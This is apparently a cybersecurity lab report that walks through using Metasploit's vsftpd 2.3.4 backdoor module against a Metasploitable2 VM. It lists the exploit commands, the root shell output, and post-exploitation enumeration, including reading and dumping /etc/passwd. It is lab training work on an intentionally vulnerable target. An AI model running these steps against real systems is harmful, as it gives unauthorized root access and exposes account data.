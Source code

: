 # Cybersecurity Lab Report – vsftpd 2.3.4 Exploit Walkthrough

**Date:** 2025-05-14  
**Target:** Metasploitable2 (192.168.56.101)  
**Attacker:** Kali Linux (192.168.56.102)  
**Tool Used:** Metasploit Framework  
**Exploit Module:** `exploit/unix/ftp/vsftpd_234_backdoor`

** Summary ** 
 Summary: vsftpd 2.3.4 Exploitation Lab
In this lab, I successfully exploited a known vulnerability in the vsftpd 2.3.4 FTP service on a Metasploitable2 virtual machine using Metasploit Framework. This vulnerability (CVE-2011-2523) allows an attacker to trigger a malicious backdoor embedded in the vsftpd binary, leading to a remote root shell on the target system.

I set up a full home lab environment using VirtualBox, configuring both Kali Linux as the attacker machine and Metasploitable2 as the intentionally vulnerable target. After establishing connectivity between the VMs via host-only networking, I performed initial reconnaissance using nmap to identify exposed services.

Upon confirming the FTP service and version, I launched the exploit/unix/ftp/vsftpd_234_backdoor module in Metasploit, which successfully opened a root shell on the target. Post-exploitation steps included system enumeration and reviewing the /etc/passwd file to identify local user accounts and assess further attack vectors.

This lab demonstrates my ability to:

Set up and configure virtual environments for ethical hacking

Conduct network scanning and service enumeration

Use Metasploit for real-world exploit execution

Perform basic post-exploitation enumeration and analysis


---

## Objective

Establish unauthorized remote access to a vulnerable FTP service (vsftpd 2.3.4) running on Metasploitable2 using the Metasploit Framework.

---

## Exploitation Steps

1. **Start Metasploit Console**
    ```bash
    msfconsole
    ```

2. **Search and select the exploit module**
    ```bash
    search vsftpd
    use exploit/unix/ftp/vsftpd_234_backdoor
    ```

3. **Configure target IP**
    ```bash
    set RHOST 192.168.56.101
    ```

4. **Launch the exploit**
    ```bash
    exploit
    ```

5. **Successful Result**
    ```
    [+] 192.168.56.101:21 - UID: uid=0(root) gid=0(root)
    [*] Found shell.
    [*] Command shell session 1 opened (192.168.56.102:42427 -> 192.168.56.101:6200)
    ```

---

## Post-Exploitation Enumeration

## Whoami
```bash
whoami
> root

## System Information
uname -a
> Linux metasploitable 2.6.24-16-server ...

## User Enumeration
cat /etc/passwd

## Output
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false

## Analysis
vsftpd 2.3.4 contains a backdoor vulnerability (CVE-2011-2523)

A crafted username triggers a hidden shell on port 6200

Exploitation using Metasploit successfully created a root shell session

/etc/passwd reveals many local user accounts:

root, msfadmin, postgres, user, service

## Outcome
Gained remote root access to Metasploitable2

Confirmed working exploit with Metasploit

Successfully performed post-exploitation enumeration

Verified lab network and tools are functioning as expected


